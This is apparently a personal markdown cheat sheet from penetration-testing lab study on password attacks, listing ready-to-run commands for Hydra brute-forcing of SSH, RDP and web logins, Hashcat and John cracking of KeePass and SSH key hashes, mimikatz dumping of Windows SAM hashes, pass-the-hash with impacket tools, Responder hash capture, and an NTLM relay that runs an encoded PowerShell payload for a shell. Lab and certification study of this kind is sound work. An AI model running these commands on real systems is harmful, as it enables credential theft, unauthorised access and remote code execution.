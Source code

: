 # Password spray
## Hydra
- ssh
- ``` hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201  ```
- rdp
- ``` hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202 ```
- port 
- add ``` -s ```

- care 302 redirect
- HTTP POST Form
  ``` hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" ```
- HTTP GET
  ``` hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.152.201 http-get "/index.php" ```



## Cracking with Hashcat
- Work w/ mutated password list (rockyou/other list)
- hashcat rule explained: [https://github.com/zh54321/hashcat_rule_gen ](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- writing rule to xx.rule ``` $1 $2 $3 c $!  ``` 
- running crack ``` hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r xx.rule --force  ```
- sometimes use fasttrack.txt too
- ``` c ``` in rule = captilized letter
- ``` u d ``` in rule = upper all char & duplicated once

- Hash mode: https://hashcat.net/wiki/doku.php?id=example_hashes
- Hash type analyzer: https://www.tunnelsup.com/hash-analyzer/ 

## Password manager 
- e.g. keepass
- Find all .kdbx database ``` Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue ```
- translate .kdbx to .hash ``` keepass2john Database.kdbx > keepass.hash ```
- trim unwanted text e.g. $database: 
- using hashcat func w/ keepass lib ``` hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force ``` 

## SSH Passphrase
- DONT GRANT TOO MUCH RIGHTS TO id_rsa | 600 is enough
- can get id_rsa , still need crack paraphase
- using ssh2john
- trim hash e.g. id_rsa:
- ``` hashcat -m 22921 ssh.hash ssh.passwords -r ssh.rule --force ```

**
- possible to dump thru ``` ./50383.sh target.txt /home/alfred/.ssh/id_rsa ```

## john
- if some pre-defined module not work, use john directly
- create new rule to john.conf ``` sudo sh -c 'cat /home/hoidam/Downloads/ssh.rule >> /etc/john/john.conf'```
- run it ``` john --wordlist=ssh.passwords --rules=sshRules ssh.hash ```

# NTLM v1
- More like high priv users
## Brute force NTLM (Windows) MUST USE POWERSHELL!!!
- Target get from window SAM
- find all users ``` Get-LocalUser ```
- w/ mimikatz (need access)
- check oscp cheat sheet for more commands
- ``` token::elevate ``` esculate to system
- get all token ``` lsadump::sam ``` & find the user + hash ntlm u want to breach
- hashcat: ``` hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force ```

## Non-crack way | Pass NTLM to another service
### SMB server 
- sometimes smb server 1 same passwod = server 2, then it works w/ using same NTLM-hash


### leveragable tools w/ hash
1. smbclient
   - ``` smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b ```
2. CrackMapExec
3. impacket_
4. psexec.py (shell with system identity)
5. wmiexec.py (shell with admin identity)
   - rmb add 32 zeros before the hash 
   - ``` impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212 ```

# NTLM v2
- More like unpriv users
## Crack
- ``` net user xxx``` see if can rdp
- ``` sudo responder -I tun0 ``` rogue receiver to dump request from http , smb etc
- ``` dir \\LHOST\test ``` to post hash NTLM
- NTLM v2 Hash crack

## Skill of including filename of smb for HTTP server load uploaded file
- change file name to ``` \\\\LHOST\\share\file.name ```
- Trigger call NTLM hash

## Forwarding the hash instill of crack since too hard
- relay server for NTLM ``` impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..." ```
- use victim A to connect our rogue impacket server by dir \\xx\y
- watch shell if have thing come

